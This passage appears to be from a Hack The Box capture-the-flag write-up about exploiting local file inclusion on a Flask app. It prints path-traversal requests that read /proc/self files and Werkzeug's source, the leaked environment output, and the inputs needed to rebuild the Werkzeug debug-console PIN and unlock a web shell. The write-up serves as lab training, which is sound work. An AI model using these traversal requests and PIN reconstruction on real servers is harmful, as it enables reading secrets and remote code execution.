 ## Unlocking the web shell

### Getting the sources

Now that we have LFI, we can easily read the sources and reproduce the PIN generation.

The error page leaks the code location:

```
/usr/local/lib/python3.10/site-packages/flask/app.py
```

More informations:

```shell
GET /uploads/..//proc/self/cmdline HTTP/1.1
# /usr/local/bin/python/app/run.py
GET /uploads/..//proc/self/environ HTTP/1.1
# PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=4bfe62d7ea1eLANG=C.UTF-8GPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696DPYTHON_VERSION=3.10.3PYTHON_PIP_VERSION=22.0.4PYTHON_SETUPTOOLS_VERSION=58.1.0PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/38e54e5de07c66e875c11a1ebbdb938854625dd8/public/get-pip.pyPYTHON_GET_PIP_SHA256=e235c437e5c7d7524fbce3880ca39b917a73dc565e0c813465b7a7a329bb279aPYTHONDONTWRITEBYTECODE=1MODE=PRODUCTIONFLASK_DEBUG=1HOME=/rootSUPERVISOR_ENABLED=1SUPERVISOR_PROCESS_NAME=flaskSUPERVISOR_GROUP_NAME=flaskWERKZEUG_SERVER_FD=3WERKZEUG_RUN_MAIN=true
GET uploads/..//proc/self/loginuid HTTP/1.1
# 4294967295
```

The environment has `HOME=/root` in it!

Also, LFI allows us to get to the PIN generation function at `/uploads/..//usr/local/lib/python3.10/site-packages/werkzeug/debug/__init__.py`:

```python
def get_pin_and_cookie_name(
    app: "WSGIApplication",
) -> t.Union[t.Tuple[str, str], t.Tuple[None, None]]:
    """Given an application object this returns a semi-stable 9 digit pin
    code and a random key.  The hope is that this is stable between
    restarts to not make debugging particularly frustrating.  If the pin
    was forcefully disabled this returns `None`.

    Second item in the resulting tuple is the cookie name for remembering.
    """
```

### Collecting the bits

The required informations are:

- the user name: `username = getpass.getuser()`
- the module name: `modname = getattr(app, "__module__", t.cast(object, app).__class__.__module__)`
- the app name: `getattr(app, "__name__", type(app).__name__)`
- the mod file: `getattr(mod, "__file__", None)`
- the node UUID: `str(uuid.getnode())`
- the machine ID: `get_machine_id()`


[author-profile]: https://app.hackthebox.com/users/476556
[debug-console]: images/debug-console.png
[gitea]: images/gitea.png
[hacktricks-pin]: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug
[pin-leak]: images/pin-leak.png